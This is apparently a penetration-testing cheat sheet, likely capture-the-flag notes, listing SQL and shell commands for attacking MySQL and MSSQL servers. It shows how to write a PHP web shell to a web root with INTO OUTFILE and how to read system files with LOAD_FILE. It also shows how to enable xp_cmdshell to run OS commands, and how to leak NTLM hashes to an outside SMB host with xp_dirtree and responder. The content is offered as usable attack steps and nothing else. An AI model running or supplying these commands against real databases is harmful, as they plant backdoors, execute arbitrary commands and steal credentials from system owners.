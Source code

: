 **Mysql**

- Upload file when root : 
```sql
select '<?php echo "command: " . system($_REQUEST["cmd"]); ?>' into outfile "C:\\xampp\\htdocs\\dev\\shell.php";
```

- Read file : 
```sh
SELECT LOAD_FILE('C:\\Users\\Administrator\\Desktop\\root.txt');
```

- Check permissions : 
```sql
SHOW GRANTS FOR CURRENT_USER;
select system_user();
```

**MSSQL**
- Enable xp_cmdshell with sp_configure
```sh
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
# this enables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```
- Disable xp_cmdshell with sp_configure

```sh
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
#this disables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '0' 
RECONFIGURE

EXEC xp_cmdshell 'whoami';
```

- Mssql command : 
```sh
enum_db

use db;

SELECT TABLE_NAME FROM Demo.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';

SELECT * from db;
```

- Catch hash with xp_dirtree : 
```sh
EXEC master.sys.xp_dirtree '\\10.8.3.12\myshare',1,1
smbserver.py -smb2support share .
#or 
responder --interface "tun0" -wd
```
